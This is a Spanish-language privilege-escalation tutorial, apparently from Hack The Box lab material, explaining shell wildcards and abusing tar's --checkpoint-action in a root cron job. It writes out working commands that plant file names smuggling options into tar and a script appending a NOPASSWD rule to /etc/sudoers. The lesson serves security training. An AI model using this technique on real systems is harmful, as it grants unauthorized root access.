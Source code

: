 Un wildcard (comodín) puede ser utilizado como reemplazo de otros caracteres y son interpretados por el shell antes de otras acciones. Ejemplos de wildcards incluyen:

|**Character**|**Significance**|
|---|---|
|`*`|Un asterisco que puede coincidir con cualquier número de caracteres en un nombre de archivo.|
|`?`|Coincide con un solo carácter.|
|`[ ]`|Corchetes que encierran caracteres y pueden coincidir con cualquier carácter único en la posición definida.|
|`~`|Una tilde al principio se expande al nombre del directorio home del usuario o puede tener otro nombre de usuario añadido para referirse al directorio home de ese usuario.|
|`-`|Un guion dentro de los corchetes denota un rango de caracteres.|

Un ejemplo de cómo los wildcards pueden ser abusados para la escalada de privilegios es el comando `tar`, un programa común para crear/extraer archivos. Si miramos la [man page](http://man7.org/linux/man-pages/man1/tar.1.html) del comando `tar`, vemos lo siguiente:



```r
htb_student@NIX02:~$ man tar

<SNIP>
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
```

La opción `--checkpoint-action` permite que se ejecute una acción `EXEC` cuando se alcanza un checkpoint (es decir, ejecutar un comando arbitrario del sistema operativo una vez que se ejecuta el comando tar). Al crear archivos con estos nombres, cuando se especifica el wildcard, `--checkpoint=1` y `--checkpoint-action=exec=sh root.sh` se pasan a `tar` como opciones de línea de comandos. Veamos esto en práctica.

Consideremos el siguiente cron job, que está configurado para respaldar el contenido del directorio `/home/htb-student` y crear un archivo comprimido dentro de `/home/htb-student`. El cron job está configurado para ejecutarse cada minuto, por lo que es un buen candidato para la escalada de privilegios.



```r
#
#
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

Podemos aprovechar el wildcard en el cron job para escribir los comandos necesarios como nombres de archivos teniendo en cuenta lo anterior. Cuando el cron job se ejecute, estos nombres de archivos serán interpretados como argumentos y ejecutarán cualquier comando que especifiquemos.



```r
htb-student@NIX02:~$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
htb-student@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
htb-student@NIX02:~$ echo "" > --checkpoint=1
```

Podemos comprobar y ver que los archivos necesarios fueron creados.



```r
htb-student@NIX02:~$ ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 htb-student htb-student   60 Aug 31 23:11 root.sh
```

Una vez que el cron job se ejecute nuevamente, podemos verificar los nuevos privilegios de sudo y hacer sudo a root directamente.



```r
htb-student@NIX02:~$ sudo -l

Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: ALL
```